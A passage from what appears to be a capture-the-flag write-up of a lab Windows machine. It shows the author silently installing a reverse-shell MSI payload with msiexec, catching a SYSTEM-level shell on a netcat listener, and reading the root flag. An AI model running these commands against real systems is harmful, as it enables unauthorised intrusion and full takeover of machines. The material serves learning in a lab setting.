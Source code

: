 This requests the file from my Python webserver (now running out of my love directory) and fetches the MSI.

Now I just need to run it with `msiexec`:

```

C:\ProgramData>msiexec /quiet /qn /i rev.msi

```

This returns nothing, but there’s a shell at my listening `nc`:

```

oxdf@parrot$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 61878
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system

```

I can grab the root flag from the administrator’s desktop:

```

C:\Users\Administrator\Desktop>type root.txt
82f9ddad************************

```